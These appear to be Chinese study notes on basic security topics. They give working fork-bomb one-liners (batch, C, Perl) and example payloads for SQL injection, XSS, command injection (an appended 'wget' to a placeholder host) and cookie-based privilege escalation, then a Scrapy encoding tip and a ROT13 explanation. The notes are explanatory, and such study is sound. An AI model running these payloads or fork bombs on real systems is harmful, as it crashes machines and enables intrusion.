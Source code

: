 Windows下则可以批处理命令如下实现：
`%0|%0`

POSIX标准下的C与C++的实现：
`#include <unistd.h>int main(){while(1) fork();return0;}`

Perl语言的实现：
`fork while fork`

在系统中成功“引爆”fork炸弹后，我们可重启来使系统恢复正常运行；而若要以手动的方法使fork炸弹“熄火”，那前提就是必须杀死fork炸弹产生的所有进程。为此我们可以考虑使用程序来杀死fork炸弹产生的进程，但由于这一般需要创建新进程，且由于fork炸弹一直在探测与占用进程槽与内存空间，因而这一方法几乎不可能实现，而且用kill命令杀死进程后，释放出的进程槽又会被余下的fork炸弹线程所产生的新进程占用，
在Windows下，用户可以退出当前用户会话的方式使系统恢复正常，但此法奏效的前提是fork炸弹是在该用户的特定会话内触发的

---------------------------------------------
### SQL注入
所谓SQL注入，就是通过把SQL命令插入到Web表单提交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的SQL命令。
`select * from username = ____ and password=_____`
`select * from username   "test" or ""="" and password="123456"`
### XSS
XSS则是攻击者往Web页面里插入恶意Script代码，当用户浏览该页之时，嵌入Web里面的Script代码会被执行，从而达到恶意攻击用户的目的。
`<p style='color:red'>你好啊，尊敬的______<p>
`
`<p style='color:red'>你好啊，尊敬的 xxx<script>alert(1)</script><p>
`
### 远程命令执行
而远程命令执行，是用户通过浏览器提交执行命令，由于服务器端没有针对执行函数做过滤，导致执行命令。
ping  _______
ping www.baidu.com & wget xxxxxxxxxxx
### 越权
越权漏洞是比较常见的漏洞类型，越权漏洞可以理解为，一个正常的用户A通常只能够对自己的一些信息进行增删改查，但是由于程序员的一时疏忽 ，对信息进行增删改查的时候没有进行一个判断，判断所需要操作的信息是否属于对应的用户，可以导致用户A可以操作其他人的信息。
`Cookie: uid=11426;`
`Cookie: uid=1;`
----------------------------------------------------
### scrapy json中文乱码
可以在setting.py文件中修改默认的输出编码方式，只需要在setting.py中增加如下语句（默认似乎是没有指定的，所以要增加，如果默认有，就直接修改）
`FEED_EXPORT_ENCODING = 'utf-8'`

### rot13
ROT13 ("rotate by 13 places", sometimes hyphenated ROT-13) is a simple letter substitution cipher that **replaces a letter with the 13th letter after it**, in the alphabet. ROT13 is a special case of the Caesar cipher which was developed in ancient Rome.

Because there are 26 letters (2×13) in the basic Latin alphabet, ROT13 is its own inverse; that is, to undo ROT13, the same algorithm is applied, so the same action can be used for encoding and decoding. The algorithm provides virtually no cryptographic security, and is often cited as a canonical example of weak encryption.

ROT13 is used in online forums as a means of hiding spoilers, punchlines, puzzle solutions, and offensive materials from the casual glance. ROT13 has inspired a variety of letter and word games on-line, and is frequently mentioned in newsgroup conversations.
